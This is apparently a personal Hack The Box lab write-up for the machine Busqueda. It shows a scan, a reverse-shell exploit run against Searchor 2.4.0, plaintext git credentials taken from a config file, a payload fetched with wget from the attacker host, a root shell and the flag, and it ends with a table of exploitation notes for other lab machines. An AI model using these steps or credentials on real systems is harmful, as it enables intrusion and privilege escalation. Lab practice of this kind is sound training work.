 
## Busqueda 

1. Rustscan and Nmap
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

nmap -p$(cat busqueda-open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A 10.10.11.208
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-06 23:14 EST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
```

2. Searcher 2.4.0 exploit
```
┌──(kali㉿kali)-[~/OSCP/htb]
└─$ ./exploit.sh searcher.htb 10.10.16.5 8888
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.16.5:8888
[*] Run the Reverse Shell... Press Ctrl+C after successful connection

┌──(kali㉿kali)-[~/OSCP/htb]
└─$ nc -lvnp 8888
svc@busqueda:/dev/shm$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/dev/shm$ 
```

3. Found cody git credentials
```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

4. Found git administrator credentials and use it login and found script which require file to be full-checkup.sh . 

5. Created reverse shell and execute. 
```
svc@busqueda:/dev/shm$ wget http://10.10.16.5/full-checkup.sh
wget http://10.10.16.5/full-checkup.sh
--2024-03-07 06:55:17--  http://10.10.16.5/full-checkup.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 59 [text/x-sh]
Saving to: ‘full-checkup.sh’

     0K                                                       100% 6.25M=0s

2024-03-07 06:55:17 (6.25 MB/s) - ‘full-checkup.sh’ saved [59/59]

svc@busqueda:/dev/shm$ chmod 777 full-checkup.sh
chmod 777 full-checkup.sh
svc@busqueda:/dev/shm$ 
```

6. Obtained root as reverse shell and flag. 
```
┌──(kali㉿kali)-[~/OSCP/htb/CVE-2022-0847-DirtyPipe-Exploits]
└─$ nc -nvlp 8889                  
listening on [any] 8889 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.208] 33142
root@busqueda:/dev/shm# cd 
cd 
root@busqueda:~# ls
ls
ecosystem.config.js
root.txt
scripts
snap
root@busqueda:~# cat root.txt
cat root.txt
d64451a40ec5b932753239254ed83491
```


| Machine Names | Exploitation way                                                                                                                                                                                                                                                                                                                                                                |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Lame          | NA                                                                                                                                                                                                                                                                                                                                                                              |
| Nibbles       | 1. nibbleblog sub-directory, <br>2. found version 4.0.3 at /nibbleblog/admin/boot/rules/98-constants.bit, <br>3. from trial and error methods found defautl pass 'admin:nibbles', <br>4. logged in and upload php cmd reverse image file with GIF8; header, <br>5. rm f reverse shell give foothold, <br>6. use monitor.sh for root or rationalove kernel exploit.              |
| Solidstate    | 1. Full nmap scan, port 4555 give foothold , <br>2. use nc listener on that port and ip, <br>3. set new password for the user mindy, <br>4. use thunderbird to get welcome email and password, <br>5. ssh login with mendy password, found corn file /opt/tmp.py, <br>6. give SUID permission to dash, helps to privesc.<br>Another way to foothold: james server 2.3.2 exploit |
| Poison        | Port 80 web page,found pwdbackup.txt, 13 time base 64 give password, port forward, rooted with remote code execution                                                                                                                                                                                                                                                            |
| Knife         | Port 80 web page, php 8.1.0-dev remote code execution, knife SUID                                                                                                                                                                                                                                                                                                               |
| Sunday        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Keeper        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Pilgrimage    |                                                                                                                                                                                                                                                                                                                                                                                 |
| Cozyhosting   |                                                                                                                                                                                                                                                                                                                                                                                 |
| Codify        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Tartarsacue   |                                                                                                                                                                                                                                                                                                                                                                                 |
| Jarvis        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Tabby         |                                                                                                                                                                                                                                                                                                                                                                                 |
| Falafel       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Mentor        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Deevvortex    |                                                                                                                                                                                                                                                                                                                                                                                 |
| lrked         |                                                                                                                                                                                                                                                                                                                                                                                 |
| popcorn       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Borker        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Analytics     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Networed      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Updown        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Swagshop      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Nineveh       |                                                                                                                                                                                                                                                                                                                                                                                 |
| Pandora       |                                                                                                                                                                                                                                                                                                                                                                                 |
| OpenAdmin     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Precious      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Busqueda      |                                                                                                                                                                                                                                                                                                                                                                                 |
| Monitored     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Sau           |                                                                                                                                                                                                                                                                                                                                                                                 |
| Broker        |                                                                                                                                                                                                                                                                                                                                                                                 |
| Intentions    |                                                                                                                                                                                                                                                                                                                                                                                 |
| Monitored     |                                                                                                                                                                                                                                                                                                                                                                                 |
| Soccer        |                                                                                                                                                                                                                                                                                                                                                                                 |



